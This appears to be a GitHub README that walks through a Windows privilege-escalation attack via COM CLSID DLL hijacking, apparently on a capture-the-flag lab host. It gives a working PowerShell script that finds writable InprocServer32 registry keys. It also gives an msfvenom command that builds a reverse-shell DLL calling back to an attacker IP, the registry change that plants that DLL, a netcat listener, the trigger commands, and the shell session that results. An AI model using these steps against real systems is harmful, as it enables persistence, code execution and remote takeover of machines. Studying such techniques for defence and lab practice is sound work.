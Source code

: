 # windows-dll-hijack-clsid
Powershell script to find writable CLSIDs and then DLL Hijacking it

### Steps:
1) Let's first create a powershell script to find vulnerable CLSID keys, we'll call it as `find_writable_clsid.ps1`: 
```powershell
# Let's obtain all the actual user's groups first by their name, not SID:
$myIdentity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$myGroups = $myIdentity.Groups | ForEach-Object {
    try {
        $_.Translate([System.Security.Principal.NTAccount]).Value
    } catch {
        $_.Value
    }
}
$myGroups += $myIdentity.Name  # Add the user directly

# Let's iterate all CLSID keys:
$base = "HKLM:\Software\Classes\CLSID"
$clsids = Get-ChildItem -Path $base -ErrorAction SilentlyContinue

foreach ($clsid in $clsids) {
    $inprocPath = Join-Path $clsid.PSPath "InprocServer32"
    
    if (Test-Path $inprocPath) {
        try {
            $acl = Get-Acl $inprocPath
            foreach ($access in $acl.Access) {
                $identity = $access.IdentityReference.Value
                $rights = $access.RegistryRights

                # Does the actual user or group have WRITE PERMISSIONS (W or RW)?:
                if ($myGroups -contains $identity -and $rights -match "SetValue|WriteKey|FullControl") {
                    Write-Host "[PWN] Writable CLSID found!"
                    Write-Host "      Key: $inprocPath"
                    Write-Host "      Who: $identity"
                    Write-Host "      Rights: $rights`n"
                }
            }
        } catch {
            continue
        }
    }
}
```

2) We execute it and we find one vulnerable CLSID key (in this case the actual user belongs to `RUSTYKEY\Support` group, so we have RW rights, we have FullControl over it to write it):
```powershell
PS C:\users\public> .\find_writable_clsid.ps1

[PWN] Writable CLSID found!
      Key: Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
      Who: RUSTYKEY\Support
      Rights: FullControl
```

3) Once you find a vulnerable CLSID key, it's time to check where it comes from, in this case it says this below -> `(default)      : C:\Program Files\7-Zip\7-zip.dll`:
```powershell
PS C:\Users\Public> Get-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"


(default)      : C:\Program Files\7-Zip\7-zip.dll
ThreadingModel : Apartment
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}\InprocServer32
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}
PSChildName    : InprocServer32
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
```

4) Now let's create our malicious DLL as `hijack.dll` in our attack machine (then send it to the target machine with the technique of your choice):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o hijack.dll
```   
   
5) Now let's replace the default value to our malicious DLL (this time we are using this route to upload the file `C:\Users\Public`, but it may be different):
```powershell
PS C:\users\public> Set-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name "(default)" -Value "C:\Users\Public\hijack.dll"

# This won't show any output!!!
```

6)  Let's have our listener on in our attacking machine:
```bash
rlwrap nc -nlvp 4444
```

7) We can execute the malicious DLL with it: 
```powershell
PS C:\users\public> start-process explorer.exe
```

 You may also execute it in this case with the 7-zip file inside it's folder as we know this has the vulnerable CLSID key:
 ```powershell
 PS C:\program files\7-zip> .\7z.exe`
 ```
 
 8) We receive the shell in our attacking machine:
```bash
rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.100.159] 49980
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> whoami
whoami
rustykey\mm.turner
PS C:\Windows> 
```


##### EXTRA: Here you can find a video to another DLL Hijacking technique using procmon.exe https://www.youtube.com/watch?v=XvxeUxOvKb0
